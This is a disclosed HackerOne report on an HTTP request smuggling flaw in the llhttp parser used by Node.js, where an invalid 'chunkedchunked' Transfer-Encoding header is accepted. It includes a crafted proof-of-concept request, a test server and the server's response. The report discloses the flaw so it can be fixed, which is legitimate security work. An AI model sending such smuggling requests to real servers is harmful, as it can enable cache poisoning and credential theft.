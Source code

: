 # HTTP Request Smuggling Due to Flawed Parsing of Transfer-Encoding 

## Report Details
- **Report ID**: 1524555
- **URL**: https://hackerone.com/reports/1524555
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-28T15:08:54.729Z
- **Disclosed**: 2022-07-07T17:28:31.940Z

## Reporter
- **Username**: zeyu2001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 

The `llhttp` parser in the `http` module in Node v17.8.0 does not correctly parse and validate `Transfer-Encoding` headers. This can lead to HTTP Request Smuggling (HRS).

**Description:** 

After #1501679, I did a bit more digging into the issue, and found that there were more flaws in the parsing of `Transfer-Encoding` headers. Relevant code [here](https://github.com/nodejs/llhttp/blob/master/src/llhttp/http.ts#L483).

After matching `"chunked"`, the parser attempts to match the CRLF sequence, failing which it matches `chunked` again. As a result, the following forms a valid request for the parser, despite the `Transfer-Encoding` value, `chunkedchunked`, being invalid.

```http
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunkedchunked

1
a
0

```

Node will process the `Transfer-Encoding` value as `chunked`, only seeing the last-match of the string `"chunked"`.

## Steps To Reproduce:

Server code I used for testing:

```javascript
const http = require('http');

http.createServer((request, response) => {
   let body = [];
   request.on('error', (err) => {
   response.end("error while reading body: " + err)
   }).on('data', (chunk) => {
      body.push(chunk);
   }).on('end', () => {
   body = Buffer.concat(body).toString();
   
   response.on('error', (err) => {
      response.end("error while sending response: " + err)
   });

   response.end(JSON.stringify({
         "Headers": request.headers,
         "Length": body.length,
         "Body": body,
      }) + "\n");
   });
}).listen(80);
```

Request:

```http
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunkedchunked

1
a
0


```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 28 Mar 2022 15:02:31 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 92

{"Headers":{"host":"localhost","transfer-encoding":"chunkedchunked"},"Length":1,"Body":"a"}
```

## Supporting Material/References:

Payloads and outputs:
{F1671151}

## Impact

Depending on the specific web application, HRS can lead to cache poisoning, bypassing of security layers, stealing of credentials and so on.

## Attachments
- ss3.png
